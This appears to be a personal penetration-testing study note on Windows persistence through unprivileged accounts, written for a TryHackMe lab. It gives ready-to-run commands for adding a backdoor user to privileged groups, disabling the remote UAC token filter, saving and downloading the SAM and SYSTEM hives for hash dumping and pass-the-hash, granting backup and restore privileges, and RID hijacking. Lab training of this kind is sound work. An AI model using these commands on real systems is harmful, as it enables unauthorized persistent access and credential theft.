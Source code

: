 # Windows Persistence - Tampering with Unprivileged Accounts

## Assigning Group Memebership

Unprivileged Accounts less monitored than administrative accounts Assigning Groups Memberships is a direct way to gain administrative privileges.

```powershell
net localgroup administrators hacker /add
net localgroup "Backup Operators" hacker /add # Less suspicious - cant RDP or WinRM
net localgroup "Remote Management Users" hacker /add # Same as the above but can remote in
```

`LocalAccountTokenFilterPolicy` from [[Windows-User-Account-Control]] strips any local account of its administrative privileges when logging in remotely with a limited access token with no administrative privileges, to regain those change them in the registery:

```powershell
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

With Evil-WinRm (see [[Evil-winrm-Cheatsheet]]) we can backup SAM and SYSTEM files and dowload them 

```powershell
reg save hklm\system system.bak
reg save hklm\sam sam.bak
download system.bak
download sam.bak
```

With [[Impacket-Cheatsheet]] `secretsdump.py` we can dump the hashes of those files, and use Evil-Winrm to perform a pass-the-hash attack.

## Special Privileges and Security Descriptors
For reference see the official documentation regarding [Privilege Constants](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants) and forcomplete token table [[SePrivilege-Token-Table]].

The Backup Operators group has the following:
-   **SeBackupPrivilege:** The user can read any file in the system, ignoring any DACL in place, see [[SeBackup-Privilege]]
-   **SeRestorePrivilege:** The user can write any file in the system, ignoring any DACL in place.

As this group we can assign the above privileges to any user regardless of group,
```powershell
secedit /export /cfg config.inf
# add username to the lines 
SeBackupPrivilege = *S-1-5...sid,<username>
SeRestorePrivilege = *S-1-5...sid,<username>
# convert .inf into .sdb, then load the configuration back into the system
secedit /import /cfg config.inf /db config.sdb
secedit /configure /db config.sdb /cfg config.inf
# This user can log in via WinRM; you can instead adding user to Remote Management group 
# Change the Security Descriptor; requires GUI.
Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI
# add user
```

## RID Hijacking
Changing some registry values to trick the operating systemlike you are the Administrator. Relateive ID (RID) is assign on user creation when that user logs in the LSASS create a access token based the RID matched from the SAM registery hive. This method will require ability to edit the registery. With [[Sysinternals-Psexec]]
```powershell 
PsExec64.exe -i -s regedit
# Computer\HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users
```


## References
[THM Windows Persistance Room](https://tryhackme.com/room/windowslocalpersistence)
[Privilege Constants](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)
